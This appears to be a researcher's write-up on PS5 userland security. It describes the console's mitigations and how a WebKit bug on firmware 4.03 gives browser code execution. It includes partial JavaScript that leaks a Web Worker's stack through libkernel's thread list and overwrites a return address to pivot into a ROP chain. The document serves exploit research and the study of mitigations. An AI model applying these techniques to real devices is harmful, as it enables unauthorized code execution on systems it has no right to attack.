

# Exploring the Playstation 5 Security - Userland
---
## Introduction
The PlayStation 5 was released on November 12th 2020. While it's similar to the PS4 in it's architecture, the security model is vastly improved on both kernel and userland fronts. Below is some key system information on system software and some of the changes from the last generation.

- Uses FreeBSD 11.
- No development access (ie. can't run unsigned code without exploits).
- To date there are no public exploits.
- Added mitigations in kernel and userland.
- Added hypervisor that handles security and app containers.

---


## Userland Overview
Back in September Project Zero released a [report](https://github.com/googleprojectzero/0days-in-the-wild/blob/67fde24b17e0defe07208d7a7f63563168ed5e62/0day-RCAs/2021/CVE-2021-30858.md) for what they believed to be CVE-2021-30858, this turned out to be wrong as it was actually CVE-2021-30889 they were describing. A [proof of concept](https://gist.github.com/sleirsgoevy/6beca32893909095f4bba1ce29167992) was written for PS4 by sleirsgoevy, which we later modified to gain ROP execution on 9.00 for the [kernel exploit](https://github.com/ChendoChap/pOOBs4). The vulnerability won't be covered here, this writeup will focus on taking the arbitrary read/write and `leakobj()/fakeobj()` primitives the exploit provides to gain code execution on PS5.

Lower firmwares such as 2.00 don't seem to be vulnerable, likely because the relevant FontFace code isn't present in older builds of WebKit (this holds true on PS4 as well, as firmwares lower than 9.00 can't be exploited with this WebKit bug).

Firmware 4.03 however, we found the browser was vulnerable. Unfortunately the exploit strategy used on PS4 could not be used on PS5 because of clang-based CFI. On PS4, we can use the `leakobj()` and arbitrary write primitive to leak an `HTMLTextArea`'s vtable and smash one the various virtual calls for code execution. On PS5, these virtual calls are verified.

Virtual calls now have code that looks something like this, where it's address is enforced:



---


### [Mitigations](https://wiki.freebsd.org/SecurityMitigations)


|name|kernel|user|description|
|---|---|---|---|
|[SMEP: Supervisor Mode Execution Prevention](https://svnweb.freebsd.org/base?view=revision&revision=242433)|x||SMEP will prevent supervisor mode from executing user-space code.|
|[SMAP: Supervisor Mode Access Prevention](https://en.wikipedia.org/wiki/Supervisor_Mode_Access_Prevention)|x||Complements Supervisor Mode Execution Prevention (SMEP), extends protection to reads and writes.|
|[XOM: eXecute Only Memory (R^X)](https://community.arm.com/arm-community-blogs/b/architectures-and-processors-blog/posts/what-is-execute-only-memory-xom)|x|x|Disallows reading any memory page marked as executable.|
|[Clang-CFI: Control Flow Integrity](https://clang.llvm.org/docs/ControlFlowIntegrity.html)|x|x|Protects against forward-edge control flow hijack (virtual calls, etc.)|

[Clang's Control Flow Integrity flags](https://clang.llvm.org/docs/ControlFlowIntegrity.html)

|-fsanitize=cfi-|description|
|----|---|
|cast-strict| Enables strict cast checks.|
|derived-cast| Base-to-derived cast to the wrong dynamic type.|
|unrelated-cast| Cast from void* or another unrelated type to the wrong dynamic type.|
|nvcall| Non-virtual call via an object whose vptr is of the wrong dynamic type.|
|vcal| Virtual call via an object whose vptr is of the wrong dynamic type.|
|icall| Indirect call of a function with wrong dynamic type.|
|mfcall| Indirect call via a member function pointer with wrong dynamic type.|

---

## WebKit Exploit Implementation

### Overview
An alternative was needed to achieve code execution in WebKit. Thankfully, PS5's CFI is only forward-edge and does not use shadow stack, so backward-edge attacks (such as attacking return addresses on the stack) are fair game.  Javascript provides a somewhat interesting piece of functionality called [Web Workers](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API). These Workers are at their core simple threads which execute javascript in an isolated environment. These were useful for exploitation, as they had a reliable stack we could leak, and gives a thread to pivot to our ROP chain.

### Leaking a worker stack
The libkernel library used by WebKit (and many other applications) keeps a list of threads for that process, and includes information such as the stack address and size. By iterating this list using the arbitrary read/write, we can find a worker's stack address.

```javascript
function find_worker() {
    const PTHREAD_NEXT_THREAD_OFFSET = 0x38;
    const PTHREAD_STACK_ADDR_OFFSET = 0xA8;
    const PTHREAD_STACK_SIZE_OFFSET = 0xB0;

    for (let thread = p.read8(libKernelBase.add32(OFFSET_lk__thread_list)); thread.low != 0x0 && thread.hi != 0x0; thread = p.read8(thread.add32(PTHREAD_NEXT_THREAD_OFFSET))) {
        let stack = p.read8(thread.add32(PTHREAD_STACK_ADDR_OFFSET));
        let stacksz = p.read8(thread.add32(PTHREAD_STACK_SIZE_OFFSET));
        if (stacksz.low == 0x80000) {
            return stack;
        }
    }
    alert("failed to find worker.");
}
```

### Launching a ROP chain

Once we have a worker stack, we can smash a known return address on the stack to stack pivot and get ROP running. Due to the stack being deterministic, we can setup a dummy worker with a `postMessage` handler and overwrite the return address at `stack+0x7FB88`.

```javascript
const OFFSET_WORKER_STACK_OFFSET = set_offset_for_platform(0x0007FB88, 0x0007FB28);
// ...
let return_address_ptr = worker_stack.add32(OFFSET_WORKER_STACK_OFFSET);
let original_return_address = p.read8(return_address_ptr);
let stack_pointer_ptr = return_address_ptr.add32(0x8);
// ...
async function launch_chain(chain) {
    // ...
    
    //overwrite return address
    p.write8(return_address_ptr, gadgets["pop rsp"]);
    p.write8(stack_pointer_ptr, chain.stack_entry_point);

    let p1 = await new Promise((resolve) => {
        const channel = new MessageChannel();
        channel.port1.onmessage = () => {
            channel.port1.close();
            resolve(1);
        }
        worker.postMessage(0, [channel.port2]);
    });
    
    // ...
}
```

---

## Conclusion

Gaining userland code execution on PS5 is trickier than on PS4, but it's possible. Of course, this was made easier by the fact that we have binaries\* and thus access to ROP gadgets. Otherwise, achieving code execution would have been far more difficult due to XOM. This is a userland exploit. Attacking the kernel is much more difficult due to above mitigations, and is left for a future writeup.

---

## Credits
ChendoChap && Znullptr

**Thanks**

- Anonymous\*
- Specter
- sleirsgoevy
- Everyone that donated.
